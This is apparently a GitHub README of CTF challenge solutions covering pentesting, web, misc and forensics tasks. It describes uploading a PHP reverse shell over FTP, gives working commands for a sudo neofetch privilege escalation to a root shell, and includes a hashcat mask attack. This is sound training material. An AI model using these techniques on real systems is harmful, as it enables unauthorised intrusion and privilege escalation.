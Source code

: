 # CTF_material

**CTF challenges prepared for the year 2022/2023** :space_invader:<br/><br/>
 
# Solutions

<img align="right" src="https://user-images.githubusercontent.com/35840617/171266140-a7f88018-c359-4ad1-955d-f96d54bfbdc1.png" width="300">
<br/>


## Pentesting
- **5ud0 m3 (user):**

    Nmap tcp scan shows 3 services on 3 ports:
    ```
    21      FTP     vsftpd 3.0.3
    22      SSH   
    80      HTTP    NGINX 1.18.0 with PHP7.4
    ```
    A shell can be obtained by uploading a PHP reverse shell using ftp (in /var/www/html/contact/) and sending a request to `http://IP/contact/[your_shell].php`
    <br/><br/>


- **5ud0 m3 (root):**

    The user `www-data` which you have a shell access to has sudo access (without password) on `/usr/bin/neofetch` which can be abused to obtain a root shell using the following commands:
    ```
    TF=$(mktemp)
    echo 'exec /bin/sh' >$TF
    sudo /usr/bin/neofetch --config $TF
    ```
    source: https://gtfobins.github.io/gtfobins/neofetch/#sudo
    <br/><br/>


## Misc
- **Git rekt:**

    Quality: 2/5
    
    level: very easy (repeated)

    Use `git log` and `git show` to reveal the redacted password and decrypt the zip file with it<br/><br/>

- **Magic:**

    Quality: 2/5
    
    level: easy (repeated)

    fix the file header `FF D8 FF E0`<br/><br/>
    
- **Brain:**

    Quality: 2/5
    
    level: easy (repeated)

    JSFuck. Could be identified with cipher identifier tools<br/><br/>
    
- **RubberDucky:**

    Quality: 2/5
    
    level: easy
    
    Read the ducky script and decode the base64 python script and read the flag<br/><br/> 

- **Jhin:**

    Quality: 2/5
    
    level: easy
    
    hint: `there is a cat that can defeat this hash`
    
    theme: 
    ```
    Jhin is a character from League of Legends lore. He is a meticulous criminal psychopath who 
    believesmurder is art. Using his gun as his paintbrush, Jhin createss works of artistic 
    brutality See https://universe.leagueoflegends.com/en_GB/story/champion/jhin/ 
    (this link is unrelated to the CTF). He was finally imprisoned by the Ionian forces 
    and they acquired his password protected safe which should contain clues about one of 
    the hardest murder cases in the history of the investigation department!. Ionian engineers 
    somehow managed to extract a hash of the password. Your task is to crack this password! 
    Jhin's long history in Ionia has made it clear that he is obsessed with the number 4 :) 
    and he always wears a mask.
    ```
    
    Crack an md5hash of a 4 characters long password `hashcat -m 0 hash.txt -a 3 ?a?a?a?a`. This is called mask attack<br/><br/>  

## Web
- **Greedy:**
   
   Quality: 2/5
   
   level: easy
   
   theme: 
    ```
    This greedy web admin hates it when people want to GET webpages from him. This time 
    he decided to block all requests (maybe not all!). Try to GIVE him and see what happens.
    ```

   Intercept http request in burpsuite. Replace `GET` verb with `GIVE` which is a custom http verb<br/><br/>

- **Cookie Monster:**
   
   Quality: 2/5
   
   level: easy

   Change cookie value from `Not_delicious` to `delicious` to pass<br/><br/>
    

## Forensics

- **Git desert:**

    Quality: 4/5
    
    level: medium

    Use `git log` to reveal commit history then `git checkout` to recover the deleted `flag.txt` file<br/><br/>


- **Meta:**

    Quality: 1/5
    
    level: very easy

    Exiftool<br/><br/>
   

- **Sun Emojis:**

    Quality: 3.5/5
    
    level: easy to medium
    
     the file is a rubberducky encoded payload and decode it using https://ducktoolkit.com<br/><br/>  
    

